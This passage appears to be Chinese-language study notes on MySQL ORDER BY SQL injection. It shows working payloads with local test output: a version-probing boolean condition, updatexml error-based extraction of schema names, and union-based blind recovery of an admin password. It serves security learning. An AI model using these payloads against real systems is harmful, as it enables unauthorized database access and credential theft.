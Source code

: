 `order by if((select ascii(substr(@@version,1,1)))>100,1,(select 1 union select 2))`

[记一次真实渗透排序处发现的SQL注入学习](https://www.freebuf.com/articles/web/338744.html)

![](https://img.mi3aka.eu.org/2022/09/97c83b3db2779f3fcffb6fdd69cdc061.png)

4. 利用updatexml等进行报错注入

```
select * from users order by updatexml(1,concat(0x7e,(select substr(group_concat(schema_name),1,20) from information_schema.schemata),0x7e),1);
ERROR 1105 (HY000): XPATH syntax error: '~information_schema,c~'
```

5. 结合union进行盲注

假定原始语句为`select username,password from table1 where username='$username'`,只对`username`字段进行回显,同时不知道列名,要求获得`admin`的密码

我们可以利用`union`和`order by`进行无列名盲注

```
mysql root@localhost:sql_injection_test> select username,password from table1 where username='admin';
+----------+----------+
| username | password |
+----------+----------+
| admin    | admin!@# |
+----------+----------+
1 row in set
Time: 0.008s
mysql root@localhost:sql_injection_test> select username,password from table1 where username='admin' union select 1,2 order by 2
+----------+----------+
| username | password |
+----------+----------+
| 1        | 2        |
| admin    | admin!@# |
+----------+----------+
2 rows in set
Time: 0.011s
```

>加上binary,因为order by不区分大小写

```
mysql root@localhost:sql_injection_test> select username,password from table1 where username='admin' union select 1,binary('a') order by 2
+----------+----------+
| username | password |
+----------+----------+
| 1        | a        |
| admin    | admin!@# |
+----------+----------+
2 rows in set
Time: 0.008s
mysql root@localhost:sql_injection_test> select username,password from table1 where username='admin' union select 1,binary('b') order by 2
+----------+----------+
| username | password |
+----------+----------+
| admin    | admin!@# |
| 1        | b        |
+----------+----------+
2 rows in set
Time: 0.009s
```
